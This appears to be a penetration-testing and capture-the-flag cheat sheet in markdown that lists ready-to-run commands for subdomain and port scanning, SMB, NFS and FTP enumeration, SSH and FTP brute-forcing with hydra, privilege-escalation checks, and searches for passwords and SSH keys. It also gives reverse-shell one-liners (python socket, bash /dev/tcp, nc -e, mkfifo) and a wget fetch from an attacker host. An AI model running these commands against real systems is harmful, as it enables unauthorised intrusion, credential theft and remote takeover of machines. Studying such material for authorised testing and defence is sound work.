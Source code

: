 # Quick Commands

### Initial Enum
 - Sub-domain Enum
```bash
wfuzz -c -f sub-fighter -w WORDLIST.txt -u 'http://site.com' -H "Host: FUZZ.site.com" --hw 290
```
 - Directory Finding
```python
python3 dirsearch.py -u http://site.com -e html,php -x 403 -t 200 -r -R 3
dirb http://192.168.20.141:8080 -r
```
 - Port Scanning
```bash
nmap -T4 TARGET_IP
nmap -sV -T4 TARGET_IP -A -p PORT_LIST
nmap -sV -T4 TARGET_IP -A -p-
```

- Nikto Scan
```bash
nikto -h http://site.com
```

### NFS
```bash
nmap -p PORT --script=nfs-ls,nfs-statfs,nfs-showmount TARGET_IP
showmount -e TARGET_IP
mkdir /tmp/nfsmount
mount -o rw,vers=2 TARGET_IP:/AVAILABLE_DIR /tmp/nfsmount
```

### SMB Enum
```bash
nmap -sV -A -O --script=*vuln* TARGET_IP
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse TARGET_IP
nmap -p 445 --script smb-protocols TARGET_IP
nmap -p 139,445 --script smb-vuln* TARGET_IP
smbmap -H TARGET_IP -P 139
smbclient -L \\\\TARGET_IP -U 'Guest' -N
smbclient \\\\TARGET_IP\\folder -U 'Guest' -N
get FILE
```

### FTP Enum
 - Username = Anonymous, Password = *Blank*
 - USE BINARY MODE FOR FILE TRANSFER!!!!
```bash
ftp TARGET_IP
binary
get FILE
put ATTACK_PC_FILE TARGET_PC_FILE
```

### Brute Forcing
```bash
hydra -l USERNAME -P passwords.txt TARGET_IP ssh
hydra -L users.txt -p PASSWORD TARGET_IP ssh
hydra -L users.txt -P passwords.txt TARGET_IP ftp
```



<br>
<br>

# Quick Commands - ON THE BOX

### UPGRADE SHELL
 - Spawn TTY Shell using one of these:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
echo os.system('/bin/bash')
/bin/sh -i
```

 1. Press CTRL + Z
 2. Type `stty raw -echo`
 3. Type `fg` and Press Enter (`nc -nvlp PORT` may get printed)
 4. Type `fg` again and Press Enter


### On the Box Enum
```bash
sudo -l
sudo -V
cat /etc/crontab
cat /etc/exports
ps aux
```

### SUDO & SUID
```bash
find / -type f -perm -04000 -ls 2>/dev/null
getcap -r / 2>/dev/null
sudo -u#-1 /bin/bash
```

### Deeper on the Box
```bash
grep --color=auto -rnw '/' -ie "PASSWORD=" --color=always 2> /dev/null
grep -r 'someVariable\["config"\]\["db"\]\["password"\]' /var/www/html/*
```

 - Analyse Program
```bash
strings FILE_NAME
strace FILE_NAME 2>&1 | grep -i -E "open|access|no such file"
binwalk FILE_NAME
binwalk -e FILE_NAME
```

 - Search for SSH Keys
```bash
find / -name id_rsa 2> /dev/null
find / -name authorized_keys 2> /dev/null
```
 - View commands being run by all users
```bash
./pspy32
./pspy64
```




<br>
<br>

# Other


### General Useful Stuff
 - Netcat
```bash
nc -lvp PORT

nc -l -p PORT > RECV_FILE
nc -w 3 TARGET_IP PORT < SEND_FILE
```

 - File Sharing (HTTP & SMB)
```text
python -m SimpleHTTPServer [PORT]
wget http://ATTACKER_IP:PORT/FILE

python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support SHARE_NAME FOLDER_PATH
copy \\SERVER_IP\SHARE_NAME\FILE .
```

 - Reverse Shells
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
bash -i >& /dev/tcp/IP/PORT 0>&1
nc IP PORT -e /bin/sh
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f" > /tmp/shell.sh
```

 - Run command as other user (you don't have to be root to run this)
```bash
sudo -u USER COMMAND
```


### Random Tools
 - CMS Scanning
```bash
joomscan
```
 - Search for exploits
```bash
searchsploit TEXT
searchsploit NUMBER --examine
```

 - Images
```bash
steghide extract -sf IMAGE_FILE
```

- Hash-Identify
```bash
hash-identifier
```

### Hash Cracking Stuff
 - Zip
```bash
zip2john ZIP_FILE > OUTPUT_HASH_FILE
john --format=zip OUTPUT_HASH_FILE
```

 - PGP & ASC
```bash
gpg2john PRIV_KEY.asc > OUTPUT_HASH_FILE
john OUTPUT_HASH_FILE -w=WORD_LIST_FILE
gpg --import PRIV_KEY.asc
gpg --decrypt PAYLOAD.pgp
```
